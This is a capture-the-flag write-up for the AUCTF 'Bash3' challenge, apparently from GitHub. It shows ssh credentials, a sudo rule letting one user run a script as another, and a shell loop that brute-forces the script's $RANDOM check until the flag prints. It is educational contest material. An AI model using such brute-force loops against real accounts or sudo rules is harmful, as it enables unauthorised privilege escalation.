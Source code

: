 # Bash: Bash3 writeup

- Access with ssh:
> - `ssh challenges.auctf.com -p 30040 -l level3`
> - pwd: `auctf{g0tt@_muv_fas7}`

- We have another script that we can't run it:
```
level3@5a2276bbe718:~$ ls -alrt
-r-xr-x--- 1 level4 level3  179 Apr  1 21:25 passcodes.sh
-r--r----- 1 level4 level4   30 Apr  1 21:25 flag.txt
```
- Checking sudo rules:
```
level3@5a2276bbe718:~$ sudo -l
Matching Defaults entries for level3 on 5a2276bbe718:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User level3 may run the following commands on 5a2276bbe718:
    (level4) NOPASSWD: /home/level3/passcodes.sh
```

- So we can `sudo -u level4 <script>` again. Looking at the script:
```
level3@5a2276bbe718:~$ cat passcodes.sh
#!/bin/bash

x=$RANDOM
echo "Input the random number."
read input

if [[ "$input" -eq "$x" ]]
then
	echo "AWESOME sauce"
	cat flag.txt
else
	echo "$input"
	echo "$x try again"
fi
```

- So there's a RANDOM number we need to guess in order to get the flag output. We can brute force this easily, by just hardcoded a number within the $RANDOM function’s range, and then running until we happen to match:
```
while true; do sudo -u level4 /home/level3/passcodes.sh < /tmp/.lul | grep -A1 AWES && break; done
AWESOME sauce
auctf{wut_r_d33z_RaNdom_numz}
```

- Flag: `auctf{wut_r_d33z_RaNdom_numz}`